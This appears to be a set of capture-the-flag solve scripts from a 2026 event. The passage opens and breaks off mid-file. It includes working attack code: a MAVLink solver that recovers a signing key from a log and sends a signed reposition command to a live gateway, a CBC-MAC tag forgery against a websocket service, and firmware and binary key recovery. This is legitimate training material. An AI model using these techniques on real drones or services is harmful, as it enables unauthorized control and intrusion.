        tmp = (tmp ^ (tmp << 4)) & 0xFF
        crc = ((crc >> 8) ^ (tmp << 8) ^ (tmp << 3) ^ (tmp >> 4)) & 0xFFFF
    return crc


def pack_v2(sysid, compid, seq, msgid, payload, crc_extra, sign_key=None, link_id=0, timestamp=None):
    header = struct.pack("<BBBBBB", len(payload), 0x01 if sign_key else 0x00, 0, seq, sysid, compid)
    header += struct.pack("<I", msgid)[:3]
    pkt = b"\xFD" + header + payload
    crc = x25crc(bytes([crc_extra]), x25crc(pkt[1:]))
    pkt += struct.pack("<H", crc)
    if sign_key is not None:
        import hashlib
        sig_hdr = bytes([link_id]) + timestamp.to_bytes(6, "little")
        pkt += sig_hdr + hashlib.sha256(sign_key + pkt + sig_hdr).digest()[:6]
    return pkt


def parse_one(buf, i):
    if buf[i] != 0xFD:
        return None
    length, incompat = buf[i + 1], buf[i + 2]
    seq, sysid, compid = buf[i + 4], buf[i + 5], buf[i + 6]
    msgid = buf[i + 7] | (buf[i + 8] << 8) | (buf[i + 9] << 16)
    payload = buf[i + 10:i + 10 + length]
    end = i + 10 + length + 2
    sig = buf[end:end + 13] if incompat & 0x01 else None
    if sig:
        end += 13
    return dict(seq=seq, sysid=sysid, compid=compid, msgid=msgid, payload=payload, sig=sig, end=end - i)


def mav_timestamp():
    """10-microsecond ticks since 2015-01-01T00:00:00Z: the MAVLink 2 signing clock."""
    return int((datetime.datetime.now(datetime.timezone.utc) - EPOCH_2015).total_seconds() * 1_000_000 / 10)


# ---------------------------------------------------------------- 1. recover the rotated key
def find_rotated_key(tlog_path):
    d = open(tlog_path, "rb").read()
    i = 0
    reposition = None                                       # a real accepted DO_REPOSITION, for its coordinates
    key = None
    while i < len(d):
        i += 8                                              # 8-byte big-endian wall-clock prefix in a .tlog
        m = parse_one(d, i)
        if m is None:
            break
        if m["msgid"] == 256:                                # SETUP_SIGNING: target_system/component(2) dropped
            ts, tsys, tcomp = struct.unpack("<Q", m["payload"][0:8])[0], m["payload"][8], m["payload"][9]
            key = m["payload"][10:42]
            print(f"SETUP_SIGNING -> new key for sysid {tsys}, baseline timestamp {ts}", file=sys.stderr)
        if m["msgid"] == 75 and reposition is None:          # COMMAND_INT, padded back to its full 35 bytes
            p = m["payload"] + b"\x00" * (35 - len(m["payload"]))
            param1, param2, param3, param4, x, y, z = struct.unpack("<ffffiif", p[:28])
            command = struct.unpack("<H", p[28:30])[0]
            if command == 192:                                # MAV_CMD_DO_REPOSITION
                reposition = (param1, param2, param3, param4, x, y, z)
        i += m["end"]
    assert key is not None, "no SETUP_SIGNING message found in the recording"
    assert reposition is not None, "no DO_REPOSITION example found in the recording"
    return key, reposition


# ---------------------------------------------------------------- 2. authenticate against the live gateway
def exploit(key, reposition, host, port):
    s = socket.create_connection((host, port), timeout=10)

    def recv_all(t=3):
        s.settimeout(t)
        buf, end = b"", time.time() + t
        while time.time() < end:
            try:
                chunk = s.recv(8192)
                if not chunk:
                    break
                buf += chunk
            except socket.timeout:
                continue
        return buf

    print("banner:", recv_all(), file=sys.stderr)

    # the gateway refuses any command before it has seen a signed HEARTBEAT on the link
    hb = struct.pack("<IBBBBB", 0, 6, 0, 0, 4, 3)
    s.sendall(pack_v2(255, 190, 10, 0, hb, 50, sign_key=key, timestamp=mav_timestamp()))
    recv_all()

    param1, param2, param3, param4, x, y, z = reposition
    payload = struct.pack("<ffffiif", param1, param2, param3, param4, x, y, z)
    payload += struct.pack("<H", 192)                          # MAV_CMD_DO_REPOSITION
    payload += bytes([1, 1, 5, 0, 0])                          # target sysid/compid, frame GLOBAL_INT, current, autocontinue
    s.sendall(pack_v2(255, 190, 11, 75, payload, 158, sign_key=key, timestamp=mav_timestamp()))
    print(recv_all(5).decode("latin1"))
    s.close()


if __name__ == "__main__":
    tlog_path, host, port = sys.argv[1], sys.argv[2], int(sys.argv[3])
    key, reposition = find_rotated_key(tlog_path)
    print("recovered key:", key.hex(), file=sys.stderr)
    exploit(key, reposition, host, port)
~~~~

### Water Hammer Reconciliation — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""water-hammer-reconciliation: rebuild the confirmed Modbus/TCP control history and its report hash.

Usage: python3 -I solve.py ../files            (pure Python, no tshark needed)
Implements the rules of station-profile.txt: reassembled TCP streams, strict ADU grammar,
FC16 -> unique echo -> immediately-next FC3 readback with a unique matched response.
"""
import base64, hashlib, struct, sys
from pathlib import Path

d = Path(sys.argv[1])
UNIT, SRV = 17, 502


# ---- pcapng + Ethernet/IPv4/TCP -> per-direction reassembled byte streams with frame ordinals
def frames(path):
    buf, o = path.read_bytes(), 0
    while o < len(buf):
        bt, bl = struct.unpack("<II", buf[o:o + 8])
        if bt == 6:                                                  # enhanced packet block
            cl = struct.unpack("<I", buf[o + 20:o + 24])[0]
            yield buf[o + 28:o + 28 + cl]
        o += bl


streams = {}                                                         # (sport, dport) -> {isn, bytes: {off: (byte, frame)}}
for n, f in enumerate(frames(d / "reserve-header.pcapng"), 1):
    if f[12:14] != b"\x08\x00" or f[23] != 6:
        continue
    ihl = (f[14] & 15) * 4
    ip = f[14:14 + struct.unpack(">H", f[16:18])[0]]
    t = ip[ihl:]
    sp, dp, seq = struct.unpack(">HHI", t[:8])
    s = streams.setdefault((sp, dp), {"isn": None, "pay": []})
    if t[13] & 2:
        s["isn"] = seq
    pay = t[(t[12] >> 4) * 4:]
    if pay:
        s["pay"].append((seq, n, pay))


def adus(stream):
    place = {}
    for seq, n, pay in stream["pay"]:
        for i, b in enumerate(pay):
            place.setdefault((seq + i - stream["isn"] - 1) & 0xFFFFFFFF, (b, n))   # first frame wins (retransmissions)
    data = bytes(place[i][0] for i in range(len(place)))
    frm = [place[i][1] for i in range(len(place))]
    out, o = [], 0
    while o + 6 <= len(data):
        tid, pid, ln = struct.unpack(">HHH", data[o:o + 6])
        end = o + 6 + ln
        if pid != 0 or ln < 2 or end > len(data):                    # malformed / truncated: not an event
            o = end if end <= len(data) else len(data)
            continue
        out.append({"tid": tid, "len": ln, "unit": data[o + 6], "pdu": data[o + 7:end], "frame": frm[end - 1]})
        o = end
    return out


cli = next(v for k, v in streams.items() if k[1] == SRV)
srv = next(v for k, v in streams.items() if k[0] == SRV)
C, S = adus(cli), adus(srv)
print(f"{len(C)} client ADUs, {len(S)} server ADUs", file=sys.stderr)

# ---- confirmed snapshots
snaps = []
for ci, req in enumerate(C):
    p = req["pdu"]
    if req["unit"] != UNIT or not p or p[0] != 0x10 or len(p) < 6:
        continue
    A, N = struct.unpack(">HH", p[1:5])
    if not (1 <= N <= 4 and 0x1000 <= A and A + N - 1 <= 0x1003 and req["len"] == 7 + 2 * N
            and p[5] == 2 * N and len(p) == 6 + 2 * N):
        continue
    # unique pending response with the same tid
    cand = [r for r in S if r["tid"] == req["tid"] and r["frame"] > req["frame"]]
    if len(cand) != 1:
        continue
    resp = cand[0]
    if not (resp["unit"] == UNIT and resp["len"] == 6 and resp["pdu"] == p[:5]):
        continue
    # immediately next client ADU after the positive response
    nxt = next((c for c in C if c["frame"] > resp["frame"]), None)
    if not (nxt and nxt["unit"] == UNIT and nxt["len"] == 6 and nxt["pdu"] == bytes.fromhex("0310000004")):
        continue
    rb = [r for r in S if r["tid"] == nxt["tid"] and r["frame"] > nxt["frame"]]
    if len(rb) != 1:
        continue
    r3 = rb[0]
    if not (r3["unit"] == UNIT and r3["len"] == 11 and r3["pdu"][:2] == b"\x03\x08" and len(r3["pdu"]) == 10):
        continue
    regs = struct.unpack(">4H", r3["pdu"][2:])
    snaps.append((resp["frame"], resp["tid"], regs))
snaps.sort()
assert len(snaps) == 64, len(snaps)
print(f"{len(snaps)} confirmed snapshots", file=sys.stderr)

# ---- safety screen (integer arithmetic only)
P0, G0, A0, R0 = 80, 500, 0, 60000
T_US = 2 * 20000 * 1000000 // 1065000
V = lambda p, g: (p * g // 1000) * 1000000 // 70686
prevV, mask, lines = V(P0, G0), 0, []
for i, (_, tid, (p, g, a, r)) in enumerate(snaps):
    v = V(p, g)
    q = 998 * 1065 * abs(v - prevV)
    if a == 1 and r < T_US and q > 9000 * 100000:
        mask |= 1 << (63 - i)
    lines.append(f"i={i};tid={tid:04X};p={p};g={g};a={a};r={r}")
    prevV = v

R = "\n".join(["water-hammer-reconciliation-v2", f"initial;p={P0};g={G0};a={A0};r={R0}", "n=64"] + lines
               + [f"unsafe-mask={mask:016X}"])
digest = hashlib.sha256(R.encode()).digest()
print("T_US =", T_US, "mask =", f"{mask:016X}", file=sys.stderr)
print("CSCTF{" + base64.b32encode(digest[:24]).decode().rstrip("=") + "}")
~~~~

### Carrier Shadow — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""carrier-shadow: lift the stage-2 ELF out of the .eh_frame_hdr search table, statically.

Usage: python3 -I solve.py ../files/carrier-shadow out-stage2.elf
Nothing is executed. Scheme (reversed from the carrier's own loader, which re-derives it at startup):
  * the sorted FDE table of .eh_frame_hdr is the carrier: the *gap* between consecutive
    function addresses encodes a symbol (gap - 2 = 0..255);
  * anchor: 8 consecutive gaps equal the first 8 values of xorshift32(seed 0x6a2b3c4d) % 61 + 34;
  * then 6 header gaps: table index, u32 LE length (4 gaps), XOR checksum;
  * the following gaps are symbols of a canonical Huffman code (code lengths = a 256-byte
    table in .rodata, selected by the table index); the concatenated MSB-first bits give a
    stream that is whitened with the same xorshift32 and is raw DEFLATE of the ELF.
"""
import re, struct, sys, zlib

d = open(sys.argv[1], "rb").read()
SEED = 0x6a2b3c4d


def xs(x):
    x ^= (x << 13) & 0xFFFFFFFF
    x ^= x >> 17
    x ^= (x << 5) & 0xFFFFFFFF
    return x


# 1. PT_GNU_EH_FRAME -> eh_frame_hdr -> binary search table (datarel sdata4 initial locations).
phoff = struct.unpack("<Q", d[32:40])[0]
phentsize, phnum = struct.unpack("<HH", d[54:58])
hdr = None
for i in range(phnum):
    p = phoff + i * phentsize
    if struct.unpack("<I", d[p:p + 4])[0] == 0x6474E550:
        hdr = struct.unpack("<Q", d[p + 8:p + 16])[0]          # p_offset (== vaddr in this binary)
n = struct.unpack("<I", d[hdr + 8:hdr + 12])[0]
locs = [struct.unpack("<i", d[hdr + 12 + 8 * i:hdr + 16 + 8 * i])[0] for i in range(n)]
gaps = [b - a for a, b in zip(locs, locs[1:])]
print(f"eh_frame_hdr at {hdr:#x}, {n} FDE entries", file=sys.stderr)

# 2. Find the anchor made of the PRNG signature.
x, keys = SEED, []
for _ in range(8):
    x = xs(x)
    keys.append(x % 61 + 34)
a = next(i for i in range(len(gaps) - 8) if gaps[i:i + 8] == keys)
h = [g - 2 for g in gaps[a + 8:a + 14]]
table, length, checksum = h[0], h[1] | h[2] << 8 | h[3] << 16 | h[4] << 24, h[5]
print(f"anchor at entry {a}: table={table} length={length} xor={checksum}", file=sys.stderr)

# 3. Code-length tables live in .rodata; the loader indexes a pointer array: [0]=0x9b340, [1]=0x9b240
#    (found in .data.rel.ro relocations). Table 1 is a decoy ramp: only table 0 matches the checksum.
TABLES = [0x9B340, 0x9B240]
lens = list(d[TABLES[table]:TABLES[table] + 256])
count = [0] * 32
for l in lens:
    count[l] += l > 0
first, code = [0] * 33, 0
for l in range(1, 32):
    first[l] = code
    code = (code + count[l]) << 1
nxt, codes = first[:], {}
for s, l in enumerate(lens):
    if l:
        codes[s] = (nxt[l], l)
        nxt[l] += 1

# 4. Symbols -> bits (MSB first) -> bytes.
acc = nb = 0
raw = bytearray()
for g in gaps[a + 14:]:
    c, l = codes[g - 2]
    for i in range(l - 1, -1, -1):
        acc = (acc << 1) | ((c >> i) & 1)
        nb += 1
        if nb == 8:
            raw.append(acc)
            acc = nb = 0
    if len(raw) >= length:
        break
raw = raw[:length]
xr = 0
for b in raw:
    xr ^= b
assert xr == checksum, "checksum mismatch"

# 5. De-whiten with the same xorshift32, then inflate (raw DEFLATE).
x, white = SEED, bytearray()
for b in raw:
    x = xs(x)
    white.append(b ^ (x & 0xFF))
elf = zlib.decompressobj(-15).decompress(bytes(white))
assert elf[:4] == b"\x7fELF"
open(sys.argv[2], "wb").write(elf)
print(f"stage 2: {len(elf)} bytes written to {sys.argv[2]}", file=sys.stderr)

# 6. The authorization string sits in the stage-2 .rodata, next to its printf format.
print(re.search(rb"CSCTF\{[^}]+\}", elf).group().decode())
~~~~

### Ghost Bank — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""GHOST BANK — activate the stub, read the vault key (page 7, STATE 4), decrypt page 3.
Usage: solve.py HOST PORT   (needs: pip install unicorn; firmware.bin next to this script's cwd)
"""
import socket, struct, sys
from unicorn import Uc, UC_ARCH_ARM64, UC_MODE_LITTLE_ENDIAN
from unicorn.arm64_const import *

HOST, PORT = sys.argv[1], int(sys.argv[2])
FW = open("firmware.bin", "rb").read()
M = (1 << 64) - 1
ror = lambda v, n: ((v >> n) | (v << (64 - n))) & M

def f(v):                                  # firmware fn @0x400120
    x = v ^ 0xa3b195354a39b70d
    x = ((x >> 16) & 0x7FFFFFFF) ^ ror(x, 47)
    x = (x * 0x64170d358aa115a1) & M
    x ^= x >> 29; x = ror(x, 13)
    x = (x * 0x65931d9dfc2010db) & M
    return x ^ (x >> 31)

def chacha_block(key, ctr, c12):           # run the firmware's own block fn @0x400174
    mu = Uc(UC_ARCH_ARM64, UC_MODE_LITTLE_ENDIAN)
    mu.mem_map(0x400000, 0x1000); mu.mem_write(0x400000, FW)
    mu.mem_map(0x4F0000, 0x10000); mu.reg_write(UC_ARM64_REG_SP, 0x4F8000)
    mu.mem_map(0x600000, 0x3000)
    mu.mem_write(0x600000, key); mu.mem_write(0x601000, c12)
    for r, v in ((UC_ARM64_REG_X0, 0x600000), (UC_ARM64_REG_X1, 0x601000),
                 (UC_ARM64_REG_X2, ctr), (UC_ARM64_REG_X3, 0x602000),
                 (UC_ARM64_REG_LR, 0xDEAD0000)):
        mu.reg_write(r, v)
    mu.emu_start(0x400174, 0xDEAD0000)
    return bytes(mu.mem_read(0x602000, 64))

s = socket.create_connection((HOST, PORT)); noack = False
def rx(n):
    b = b""
    while len(b) < n: b += s.recv(n - len(b))
    return b
def cmd(p):
    global noack
    s.sendall(b"$%s#%02x" % (p.encode(), sum(p.encode()) & 0xFF))
    if not noack: rx(1)                        # '+' ack
    while rx(1) != b"$": pass
    d = b""
    while (c := rx(1)) != b"#": d += c
    rx(2)
    if not noack: s.sendall(b"+")
    return d.decode()
cmd("QStartNoAckMode"); noack = True
rd = lambda a, n=4: cmd(f"m{a:x},{n:x}")
wr = lambda a, v: cmd(f"M{a:x},4:{struct.pack('<I', v).hex()}")
CTRL, PAGE, OFF, DATA, CLEN, CLO, CHI, KEY, ST = (0x40000000, 0x40000008, 0x40000010,
    0x40000018, 0x4000001C, 0x40000020, 0x40000024, 0x40000028, 0x40000030)
def page(p, n):
    wr(PAGE, p); out = b""
    for o in range(n): wr(OFF, o); out += bytes.fromhex(rd(DATA, 1))
    return out

# 1) ciphertext of the tasking: the only page with CIPHER_LEN != 0 (page 3)
wr(PAGE, 3); clen = struct.unpack("<I", bytes.fromhex(rd(CLEN)))[0]
ct = page(3, clen); print("page 3 ciphertext:", clen, "bytes")

# 2) activation ritual (PAGE must be 7), then CONTROL=0x9c -> STATUS 4 reveals the key on page 7
wr(CTRL, 0x41)
ch = struct.unpack("<Q", bytes.fromhex(rd(CLO) + rd(CHI)))[0]
k = f(ch); wr(PAGE, 7); wr(KEY, k & 0xFFFFFFFF); wr(KEY, k >> 32); wr(CTRL, 0x93)
assert rd(ST) == "03000000", "bad activation"
wr(CTRL, 0x9c); assert rd(ST) == "04000000"
key = page(7, 32); print("vault key:", key.hex())

# 3) ChaCha with the firmware's block fn: nonce = "SEAL-V01"+00000001, counter starts at 1
c12 = b"SEAL-V01\x00\x00\x00\x01"
pt = b"".join(bytes(a ^ b for a, b in zip(ct[i:i+64], chacha_block(key, 1 + i // 64, c12)))
              for i in range(0, len(ct), 64))
print(pt.decode())
~~~~

### Ground Lock — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Ground Lock (reverse/easy)
Recover the 24-byte GRIFFON-FC service code from fcunlock without
brute force: the checker hashes each 8-byte little-endian chunk with
the splitmix64 finalizer and compares against three stored targets,
and every step of that finalizer is invertible mod 2**64.

Reversing (all constants read from the binary, never assumed):
  input[0:8] --u64le--> mix --> 0x8bfd351846ffb86b
  input[8:16] --u64le--> mix --> 0x3ff3fd892aa7e3b2
  input[16:24] --u64le--> mix --> 0xf61e79e7e639e0d2
  mix(x) = ror-shift-xor(x,33) * 0xff51afd7ed558ccd ...
  inverse: same xor-shift (involution for shift 33) and modular
  inverses of the two odd multipliers.

Usage:
    python3 solve.py [fcunlock]
"""

import os
import struct
import sys

MASK = (1 << 64) - 1
S1 = 0xFF51AFD7ED558CCD
S2 = 0xC4CEB9FE1A85EC53
SHIFT = 33


def find_targets(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/fcunlock",
        "../fcunlock",
        "docs/2026-chronos-csctf/reverse/fcunlock",
        "/tmp/opencode/ground/fcunlock",
    ]
    for path in candidates:
        if path and os.path.isfile(path):
            print(f"[*] Loading {path}")
            with open(path, "rb") as fh:
                return fh.read()
    raise SystemExit("[-] Provide the fcunlock binary")


def splitmix_mix(x):
    x ^= (x >> SHIFT) & MASK
    x &= MASK
    x = (x * S1) & MASK
    x ^= (x >> SHIFT) & MASK
    x &= MASK
    x = (x * S2) & MASK
    x ^= (x >> SHIFT) & MASK
    return x & MASK


def splitmix_unmix(y):
    # x ^= x >> 33 is an involution (2*33 >= 64); the odd multipliers
    # invert mod 2**64.
    x = (y ^ (y >> SHIFT)) & MASK
    x = (x * pow(S2, -1, 1 << 64)) & MASK
    x = (x ^ (x >> SHIFT)) & MASK
    x = (x * pow(S1, -1, 1 << 64)) & MASK
    x = (x ^ (x >> SHIFT)) & MASK
    return x


def main():
    blob = find_targets(sys.argv)
    assert blob[:4] == b"\x7fELF", "not an ELF binary"

    # The rodata table holds the two splitmix constants, the shift (33),
    # the chunk count (3), then the three expected digests.
    # S1 also appears as a movabs immediate in .text; the table is the
    # occurrence followed by S2, the shift and the chunk count.
    table = None
    needle = struct.pack("<Q", S1)
    start = 0
    while True:
        i1 = blob.find(needle, start)
        assert i1 >= 0, "splitmix constants not found"
        if blob[i1 + 8:i1 + 16] == struct.pack("<Q", S2):
            table = i1
            break
        start = i1 + 8
    shift, count = struct.unpack_from("<QQ", blob, table + 16)
    assert (shift, count) == (SHIFT, 3), "unexpected table layout"
    targets = struct.unpack_from("<QQQ", blob, table + 32)
    print(f"[*] Table       : shift={shift} count={count}")
    for i, t in enumerate(targets):
        print(f"    chunk {i} mix == {t:#018x}")

    code = b"".join(splitmix_unmix(t).to_bytes(8, "little")
                    for t in targets)
    print(f"[*] Code bytes  : {code!r} ({len(code)} bytes)")
    assert len(code) == 24 and all(32 <= c < 127 for c in code)
    assert all(splitmix_mix(int.from_bytes(code[i * 8:(i + 1) * 8],
                                           "little")) == targets[i]
               for i in range(3)), "round-trip check failed"

    print(f"\n[+] FLAG            : CSCTF{{{code.decode()}}}")


if __name__ == "__main__":
    main()
~~~~

### HELIOS-RTU — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - HELIOS-RTU (reverse/hard)
Produce the service token from the assigned live instance only.

Static findings replayed here (see README for the full analysis):
  - The target is an ATmega328P (signature 0x1e950f). ISP answers but
    flash reads back 0xFF (lock 0xFC), debugWIRE never syncs (hfuse
    DWEN=1); the USB serial bootloader is the interface that reads the
    application firmware (2 KiB at flash 0x0000).
  - The firmware's authenticated control frame (UART type 5, 48-byte
    payload) AES-CBC-MACs the payload with a key expanded from flash
    0x7F00 - a region every external read returns as 0xFF, so the key
    itself stays unreadable.
  - The service exposes exactly that AES as `svc sign <16B>` (an
    encryption oracle; records starting 0xCC are refused), and
    `svc exec <frame32> <tag>` verifies the CBC-MAC, requires the
    directive marker frame[16]=0xCC, frame[17]=0x0A and the live
    nonce at frame[18:26], then issues the token.
  - Forgery: tag = sign(frame[16:32] XOR sign(frame[0:16])) - the
    classic CBC-MAC oracle construction. Nonce is single-use, so the
    nonce read, both signs and the exec stay in one session.

Requires: python3-websockets + network access to the assigned instance.

Usage:
    python3 solve.py [ws://host:port/ws | http://host:port/]
"""

import asyncio
import json
import re
import sys

import websockets


async def run(url):
    async with websockets.connect(url) as ws:
        banner = json.loads(await ws.recv())
        assert "HELIOS" in banner.get("data", "") or banner, "no banner"

        async def cmd(line, timeout=30):
            await ws.send(line)
            msg = json.loads(await asyncio.wait_for(ws.recv(),
                                                    timeout=timeout))
            return msg.get("data", "")

        out = await cmd("apt install svc")
        assert "installed" in out or "Setting up svc" in out, out

        out = await cmd("svc nonce")
        m = re.search(r"nonce = ([0-9a-f]{16})", out)
        assert m, f"bad nonce reply: {out!r}"
        nonce = m.group(1)
        print(f"[*] Live nonce    : {nonce}")

        frame = ("00" * 16 + "cc0a" + nonce + "00" * 6)
        assert len(frame) == 64, "frame must be 32 bytes"
        print(f"[*] Frame         : {frame}")

        async def sign(record_hex):
            reply = await cmd(f"svc sign {record_hex}")
            mm = re.search(r"tag = ([0-9a-f]{32})", reply)
            assert mm, f"sign refused/failed: {reply!r}"
            return mm.group(1)

        t1 = await sign(frame[:32])
        mixed = bytes(a ^ b for a, b in zip(bytes.fromhex(frame[32:]),
                                            bytes.fromhex(t1))).hex()
        tag = await sign(mixed)
        print(f"[*] CBC-MAC tag   : {tag} "
              f"(sign[0] then sign[1 xor sign[0]])")

        out = await cmd(f"svc exec {frame} {tag}")
        print(f"[*] exec reply    : {out.strip()}")
        m = re.search(r"SERVICE TOKEN = (CSCTF\{[^}]+\})", out)
        assert m, "no service token in exec reply"
        return m.group(1)


def main():
    url = sys.argv[1] if len(sys.argv) > 1 else \
        "ws://w01.ctf.chronos-security.ro:34019/ws"
    if url.startswith("http"):
        url = url.replace("http", "ws", 1).rstrip("/") + "/ws"
    print(f"[*] Instance      : {url}")
    token = asyncio.run(run(url))
    print(f"\n[+] FLAG            : {token}")


if __name__ == "__main__":
    main()
~~~~

### Operation Dawn: Radio Recovery — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Operation Dawn: Radio Recovery (reverse/easy)
Recover the administrative recovery token from firmware.bin.

Chain (every parameter derived from the bundle, never assumed):
  1. DWFW container: 8-byte header + four 20-byte records
     (name[8], offset LE, size LE, crc32 LE). All four stored CRCs
     verify: loader, ubootenv, msgcat, rootfs.
  2. ubootenv is a redundant U-Boot environment (two 0x2000 blocks,
     CRC + flag byte + strings). The higher flag (7 vs 6,
     recovery=ready vs legacy) is active: ethaddr 3c:22:fb:4a:1d:90.
  3. rootfs is a zlib stream with a preset dictionary (FDICT set):
     its DICTID equals Adler-32(msgcat). Decompressing with
     zdict=msgcat yields a cpio (newc) archive.
  4. etc/config/radio holds admin_token (hex); etc/init.d/S40admin
     XORs it byte-wise with the repeating 6 MAC bytes. That XOR with
     the active MAC is the CSCTF token (the legacy MAC gives garbage).

Pure Python stdlib, read-only, no execution, no mounting.

Usage:
    python3 solve.py [firmware.bin]
"""

import os
import re
import struct
import sys
import zlib

FLAG_RE = re.compile(rb"CSCTF\{[ -~]+\}")


def load_firmware(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/firmware.bin",
        "../firmware.bin",
        "docs/2026-chronos-csctf/reverse/firmware.bin",
        "/tmp/opencode/radio/firmware.bin",
    ]
    for path in candidates:
        if path and os.path.isfile(path):
            print(f"[*] Loading {path}")
            with open(path, "rb") as fh:
                return fh.read()
    raise SystemExit("[-] Provide firmware.bin")


def parse_dwfw(data):
    assert data[:4] == b"DWFW", "not a DWFW bundle"
    version, count = struct.unpack_from("<HH", data, 4)
    assert (version, count) == (1, 4), f"DWFW v{version} x{count}"
    parts = {}
    off = 8
    for _ in range(count):
        name = data[off:off + 8].rstrip(b"\x00").decode()
        offset, size, crc = struct.unpack_from("<III", data, off + 8)
        blob = data[offset:offset + size]
        assert zlib.crc32(blob) & 0xFFFFFFFF == crc, \
            f"{name}: stored CRC mismatch"
        parts[name] = blob
        print(f"[*] DWFW {name:9s} off={offset:#06x} size={size:5d} "
              f"crc OK")
        off += 20
    return parts


def active_mac(ubootenv):
    blocks = []
    for i in range(2):
        block = ubootenv[i * 0x2000:(i + 1) * 0x2000]
        flag = block[4]
        env = {}
        for item in block[5:].split(b"\x00"):
            if b"=" in item:
                k, v = item.split(b"=", 1)
                env[k.decode()] = v.decode()
            if item == b"" and env:
                break
        blocks.append((flag, env))
        print(f"[*] U-Boot env[{i}] flag={flag} "
              f"ethaddr={env.get('ethaddr')} "
              f"recovery={env.get('recovery')}")
    flag, env = max(blocks, key=lambda b: b[0])
    mac_hex = env["ethaddr"].replace(":", "")
    print(f"[*] Active env    : flag={flag} ethaddr={env['ethaddr']}")
    return bytes.fromhex(mac_hex)


def parse_cpio(data):
    files, pos = {}, 0
    while True:
        assert data[pos:pos + 6] == b"070701", "not a newc cpio archive"
        fields = [int(data[pos + 6 + 8 * i:pos + 14 + 8 * i], 16)
                  for i in range(13)]
        filesize, namesize = fields[6], fields[11]
        name_at = pos + 110
        name = data[name_at:name_at + namesize - 1].decode()
        data_at = (name_at + namesize + 3) & ~3
        if name == "TRAILER!!!":
            break
        files[name] = data[data_at:data_at + filesize]
        pos = (data_at + filesize + 3) & ~3
    print(f"[*] cpio files    : {sorted(files)}")
    return files


def main():
    parts = parse_dwfw(load_firmware(sys.argv))
    mac = active_mac(parts["ubootenv"])

    root = parts["rootfs"]
    assert root[0] & 0x0F == 8 and root[1] & 0x20, \
        "rootfs is not a dictionary-zlib stream"
    dict_id = struct.unpack(">I", root[2:6])[0]
    assert dict_id == zlib.adler32(parts["msgcat"]) & 0xFFFFFFFF, \
        "DICTID does not match msgcat Adler-32"
    print(f"[*] zlib DICTID   : {dict_id:#010x} == Adler-32(msgcat)")
    raw = zlib.decompressobj(-15, zdict=parts["msgcat"]).decompress(root[6:])
    print(f"[*] rootfs        : {len(root)} -> {len(raw)} bytes (cpio)")

    files = parse_cpio(raw)
    radio = files["etc/config/radio"].decode()
    token_hex = re.search(r"^admin_token=([0-9a-f]+)$", radio, re.M)
    assert token_hex, "admin_token missing from etc/config/radio"
    admin = bytes.fromhex(token_hex.group(1))
    print(f"[*] admin_token   : {len(admin)} bytes (hex in config)")

    plain = bytes(b ^ mac[i % len(mac)] for i, b in enumerate(admin))
    print(f"[*] XOR result    : {plain!r}")
    m = FLAG_RE.search(plain)
    assert m and m.group(0) == plain, "XOR result is not a bare flag"
    print(f"\n[+] FLAG            : {plain.decode()}")


if __name__ == "__main__":
    main()
~~~~

### PoshTerm — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - PoshTerm (reverse/easy)
Recover what the unlisted `service_code` command prints, by static
analysis only (the Windows executable is never run).

Chain (every constant is re-derived from the binary, never assumed):
  1. The posh shell is minified JS inside PoshTerm.exe. Exactly one
     command is registered with hidden:!0 and outside the map that
     Get-Command enumerates: `service_code = <term>`.
  2. It gates on md5(POSHTERM_PROFILE)==D.host and md5(term)==D.code,
     then runs A(term): Wikipedia search -> article -> "first_flight"
     date (Month D, YYYY) -> YYYY-MM-DD -> NASA/JPL jd_cal.api -> jd.
  3. The flag is RC4(key=str(jd)) over the embedded hex blob.
  4. The search term is recovered from the binary's own provenance log
     ("service_code reference bound to '...'"), and its md5 must equal
     D.code - otherwise abort instead of emitting a wrong flag.

Requires: network access to en.wikipedia.org and ssd-api.jpl.nasa.gov
(the challenge's solve path is defined against these live sources).

Usage:
    python3 solve.py [chall.7z | PoshTerm.exe | extracted-dir]
"""

import hashlib
import json
import os
import re
import struct
import subprocess
import sys
import urllib.parse
import urllib.request

UA = {"User-Agent": "CSCTF-poshterm-solve/1.0"}
MONTHS = ("January February March April May June July August September "
          "October November December").split(" ")


# ---------------------------------------------------------------- evidence

def load_exe(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/chall.7z",
        "../chall.7z",
        "docs/2026-chronos-csctf/reverse/chall.7z",
        "/tmp/opencode/posh/PoshTerm.exe",
    ]
    for path in candidates:
        if not path:
            continue
        if os.path.isfile(path):
            if path.lower().endswith(".7z"):
                print(f"[*] Loading {path} (via 7z)")
                proc = subprocess.run(
                    ["7z", "x", "-so", path, "PoshTerm.exe"],
                    capture_output=True)
                assert proc.returncode == 0 and proc.stdout[:2] == b"MZ", \
                    f"7z extraction failed: {proc.stderr[:200]!r}"
                return proc.stdout
            elif path.lower().endswith(".exe"):
                print(f"[*] Loading {path}")
                with open(path, "rb") as fh:
                    return fh.read()
        elif os.path.isdir(path):
            for root, _, files in os.walk(path):
                for f in files:
                    if f.lower().endswith(".exe"):
                        full = os.path.join(root, f)
                        print(f"[*] Loading {full}")
                        with open(full, "rb") as fh:
                            return fh.read()
    raise SystemExit("[-] Provide chall.7z, PoshTerm.exe or its directory")


def fetch(url):
    req = urllib.request.Request(url, headers=UA)
    with urllib.request.urlopen(req, timeout=60) as resp:
        return resp.read()


# ---------------------------------------------------------------- static parsing

def parse_hidden(blob):
    m = re.search(rb't\._sc=\{name:"([A-Za-z0-9_-]+)"', blob)
    assert m, "hidden command registration not found"
    name = m.group(1).decode()
    assert blob.count(b"hidden:!0") == 1, "more than one hidden command"
    print(f"[*] Hidden command : {name} (sole hidden:!0, outside "
          f"Get-Command map)")

    m = re.search(rb'D=\{host:"([0-9a-f]{32})",code:"([0-9a-f]{32})"\}',
                  blob)
    assert m, "D.host/D.code gate not found"
    host, code = m.group(1).decode(), m.group(2).decode()
